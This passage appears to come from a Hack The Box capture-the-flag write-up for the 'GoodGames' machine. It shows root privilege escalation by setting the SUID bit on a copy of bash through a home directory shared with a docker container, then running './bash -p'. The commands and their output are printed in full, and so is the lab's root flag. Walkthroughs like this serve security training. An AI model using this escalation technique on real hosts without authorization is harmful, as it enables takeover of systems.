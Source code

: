 ## Root.txt - Privilege Escalation

I noticed that `/home/augustus` was both on the docker container and the FS, but I was only a user on the host whereas I was `root` on docker container. I didn't see any useful SETUID binaries that I could abuse on the host, but I wondered if I could just make one myself... I first made a copy of the `bash` binary in the `/home/augustus` directory.

```bash
augustus@GoodGames:~$ which bash
/usr/bin/bash
augustus@GoodGames:~$ cp /usr/bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt
```

I then went back to the docker container and ran the following commands as "root" to make my copy of `bash` owned by the root user & group and set the SETUID bit.

```bash
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod +s bash
root@3a453ab39d3d:/home/augustus# ls -la
ls -la
total 1168
drwxr-xr-x 2 1000 1000    4096 Nov 21 23:46 .
drwxr-xr-x 1 root root    4096 Nov  5 15:23 ..
lrwxrwxrwx 1 root root       9 Nov  3 10:16 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19 11:16 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19 11:16 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19 11:16 .profile
-rwsr-sr-x 1 root root 1168776 Nov 21 23:46 bash
-rw-r----- 1 root 1000      32 Nov  3 10:13 user.txt
```

I then logged back into the host at `172.19.0.1` and used the trick shown here: https://gtfobins.github.io/gtfobins/bash/#suid for a SUID bit set on the `bash` binary.

```bash
augustus@GoodGames:~$ ./bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
HTB{M0un73d_F1l3_Sy57eM5_4r3_DaNg3R0uS}
```

`root.txt: HTB{M0un73d_F1l3_Sy57eM5_4r3_DaNg3R0uS}`

Rooted!